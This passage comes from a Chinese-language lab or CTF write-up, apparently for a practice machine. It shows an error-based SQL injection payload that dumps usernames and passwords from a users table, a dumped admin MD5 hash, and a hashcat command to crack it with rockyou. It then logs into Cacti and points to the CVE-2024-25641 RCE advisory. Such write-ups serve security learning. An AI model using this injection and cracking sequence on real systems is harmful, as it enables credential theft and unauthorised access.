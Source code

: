 然后获取`username`和`password`

```
admin' AND extractvalue(1,concat('~',(SELECT SUBSTRING(GROUP_CONCAT(username,':',password),1,30) FROM users)))#
```

admin：31a181c8372e3afc59dab863430610e8

```
hashcat '31a181c8372e3afc59dab863430610e8' -m 0 /usr/share/wordlists/rockyou.txt
```

![](./images/image-143.png)

然后即可登录`cacti`子域名

![](./images/image-144.png)

## CVE-2024-25641

如果是能够进入cacti的情况下，是有CVE可以利用的

Github：[RCE vulnerability when importing packages · Advisory · Cacti/cacti (github.com)](https://github.com/Cacti/cacti/security/advisories/GHSA-7cmj-g5qc-pj88)
